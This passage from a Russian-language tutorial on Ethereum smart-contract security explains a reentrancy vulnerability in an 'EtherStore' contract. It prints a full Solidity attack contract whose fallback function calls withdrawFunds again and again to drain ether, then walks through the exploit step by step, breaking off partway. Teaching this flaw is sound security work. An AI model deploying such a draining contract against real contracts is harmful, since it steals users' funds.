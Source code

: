 Этот контракт имеет две публичные функции, depositFunds и withdrawFunds. Функция depositFunds просто увеличивает баланс отправителя. Функция withdrawFunds позволяет отправителю указать сумму вэев для снятия. Эта функция будет успешной только в том случае, если запрашиваемая сумма для снятия меньше 1 эфира и снятие средств не происходило в течение последней недели.

Уязвимость находится в строке 17, где контракт отправляет пользователю запрошенное им количество эфира. Рассмотрим злоумышленника, который создал контракт в Attack.sol.
Пример 2. Атака.sol

```
import "EtherStore.sol";

contract Attack {
  EtherStore public etherStore;

  // intialize the etherStore variable with the contract address
  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }

  function attackEtherStore() external payable {
      // attack to the nearest ether
      require(msg.value >= 1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(1 ether)();
      // start the magic
      etherStore.withdrawFunds(1 ether);
  }

  function collectEther() public {
      msg.sender.transfer(this.balance);
  }

  // fallback function - where the magic happens
  function () payable {
      if (etherStore.balance > 1 ether) {
          etherStore.withdrawFunds(1 ether);
      }
  }
}
```

Как может произойти эксплуатация? Во-первых, злоумышленник создаст вредоносный контракт (допустим, по адресу 0x0...123) с адресом контракта EtherStore в качестве единственного параметра конструктора. Это инициализирует и направит публичную переменную etherStore на атакуемый контракт.

Затем атакующий вызовет функцию attackEtherStore, имея некоторое количество эфира, большее или равное 1 - предположим, что на данный момент 1 эфир. В этом примере мы также предположим, что несколько других пользователей внесли эфир в этот контракт, так что его текущий баланс составляет 10 эфиров. Тогда произойдет следующее:

1. Attack.sol, строка 15: Функция depositFunds контракта EtherStore будет вызвана с msg.value, равным 1 эфиру (и большим количеством газа). Отправителем (msg.sender) будет вредоносный контракт (0x0...123). Таким образом, остатки[0x0...123] = 1 эфир.
2. Attack.sol, строка 17: Затем вредоносный контракт вызовет функцию withdrawFunds контракта EtherStore с параметром в 1 эфир. Это будет соответствовать всем требованиям (строки 12-16 контракта EtherStore), так как никаких предыдущих снятий средств не производилось.
3. EtherStore.sol, строка 17: Контракт отправит 1 эфир обратно вредоносному контракту.
4. Attack.sol, строка 25: После оплаты вредоносного контракта будет выполнена функция fallback.
5. Attack.sol, строка 26: Общий баланс контракта EtherStore составлял 10 эфиров, а теперь составляет 9 эфиров, поэтому оператор if проходит.
6. Attack.sol, строка 27: Функция fallback снова вызывает функцию EtherStore withdrawFunds и "снова входит" в контракт EtherStore.